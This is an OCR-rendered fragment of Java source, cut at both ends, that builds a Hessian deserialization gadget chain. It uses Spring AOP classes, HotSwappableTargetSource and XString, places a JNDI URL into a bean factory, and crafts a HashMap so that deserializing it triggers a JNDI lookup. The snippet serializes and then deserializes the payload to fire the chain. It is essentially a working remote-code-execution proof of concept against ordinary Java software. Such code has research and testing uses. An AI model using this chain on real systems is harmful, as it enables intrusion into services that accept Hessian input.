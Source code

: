 ```java
        setFieldValue(bf.getJndiTemplate(), "logger", new NoOpLog());
        AspectInstanceFactory aif = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(aif, "beanFactory", bf);
        setFieldValue(aif, "name", jndiUrl);

        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFieldValue(advice, "aspectInstanceFactory", aif);

        AspectJPointcutAdvisor advisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(advisor, "advice", advice);

        Class<?> pcahCl = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        Object pcah = createWithoutConstructor(pcahCl);
        setFieldValue(pcah, "advisor", advisor);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(pcah);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);

        //序列化
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.getSerializerFactory().setAllowNonSerializable(true);
        hessianOutput.writeObject(s);
        hessianOutput.flush();
        byte[] bytes = byteArrayOutputStream.toByteArray();
        
        //反序列化
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
```